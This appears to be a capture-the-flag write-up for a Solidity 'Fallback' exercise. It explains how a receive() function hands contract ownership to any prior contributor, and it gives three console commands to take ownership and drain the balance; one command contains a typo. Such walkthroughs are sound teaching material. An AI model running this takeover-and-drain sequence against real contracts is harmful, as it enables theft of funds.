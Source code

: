 ## Exercise 1: Fallback

This is a very simple exploit enabled by the ownership change included in the receive() fallback function.

```solidity

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }

```

Here we can see that if any ether is sent to this contract, the sender of the ether takes ownership of the contract. The contract owner is then able to drain the contract of funds via the `withdraw` function:


```javascript
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
```

The only slight complication is that in order to switch ownership in the fallback function, the ether sender must have made a contribution to the contract via the `contribute` function. 

So, taking ownership of this contract and draining it of funds can be achieved in the following steps:

1) Send some small amount of wei to the contract so our address is included in contributions mapping:
   
   ```javascript
   contract.contribute({value:'1000'})
   ```

2) send some ether to the contract, triggering the fallback function
   ```javascript
    contract.sendTransation({value:'100000'})
   ```

3) now we own the contract, drain the funds using the contract's withdraw() func:
   ```javascript
    contract.withdraw()
   ```



### Links:
[Truth about Fallbacks in Solidity](https://medium.com/upstate-interactive/the-truth-about-fallback-functions-in-solidity-a2c604f8e66b)